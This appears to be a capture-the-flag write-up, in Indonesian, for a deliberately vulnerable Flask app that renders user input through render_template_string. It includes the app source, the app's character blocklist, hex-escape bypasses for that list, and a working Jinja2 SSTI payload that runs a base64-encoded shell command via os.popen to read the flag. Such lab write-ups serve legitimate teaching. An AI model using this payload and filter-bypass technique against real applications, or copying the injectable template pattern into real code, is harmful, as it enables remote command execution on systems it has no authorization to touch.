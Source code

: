 # SSTI

## Analisa source code

```py
from flask import Flask, render_template_string, request, redirect, url_for, session

app = Flask(__name__)
app.secret_key = 'Devit Ganteng :]'

@app.route('/')
def index():
    tasks = session.get('tasks', 'Hallo sayang absen yuks !! h3h3h3 muachh ')

    # Template HTML
    template_string = """
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Simple Absen List</title>
    </head>
    <body>
        <h1>Nino Absen List</h1>
        <form action="{{ url_for('add') }}" method="post">
            <label for="task">Absen Kuy:</label>
            <input type="text" id="task" name="task" required>
            <button type="submit">Absen</button>
        </form>
        <ul>
            <li>
                """+tasks+"""
            </li>
        </ul>
    </body>
    </html>
    """

    return render_template_string(template_string, tasks=tasks)

@app.route('/add', methods=['POST'])
def add():
    task = request.form.get('task')
    #filtering
    not_allowed = ["app.py","app","app.","flag.txt","*", ">", "<", ">>", "|", "&", "$", ";","~","[","]","#","!","-"]
    for keyword in not_allowed:
        if keyword in task:
            session['tasks']="Kamu tidak boleh melakukan hal itu !! Sayang"
            return redirect(url_for('index'))
    #end filtering
    session['tasks'] = "Hallo 👋 "+task+" Terimakasih sudah absen"

    return redirect(url_for('index'))

if __name__ == '__main__':
    app.run(debug=False)
```

#### Vulnerability

```bash
return render_template_string(template_string, tasks=tasks)
```

penjelasan :</br></br>
Pada baris ini, template string dirender menggunakan fungsi render_template_string. SSTI terjadi karena template_string dapat berisi string yang dieksekusi oleh Jinja2.

#### Not allowed char

```bash
app.py , app, app., flag.txt, *, >, <. >>. |, &, $, ;, ~, [, ], #, !, -
```

#### Basic injection

```bash
{{100/10}}
```

### Bypass

```bash
   . = \x2E
   * = \x2A
   > = \x3E
   < = \x3C
   >> = \x3E\x3E
   | = \x7C
   & = \x26
   $ = \x24
   ; = \x3B
   ~ = \x7E
   [ = \x5B
   ] = \x5D
   # = \x23
   ! = \x21
   - = \x2D
```

### Flag location

```bash
├── api
│   ├── app.py
│   ├── nino
│   │   ├── flag
│   │   │   └── flag.txt
│   │   └── flag.txt
│   └── __pycache__
│       └── app.cpython-310.pyc
├── flag.txt
├── requirements.txt
└── vercel.json
```

### Payload

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "Y2F0IGFwaS9uaW5vL2ZsYWcvZmxhZy50eHQ=" \x7C base64 \x2Dd \x7C bash').read() }}
```

### Automation

```bash
python3 main.py
```
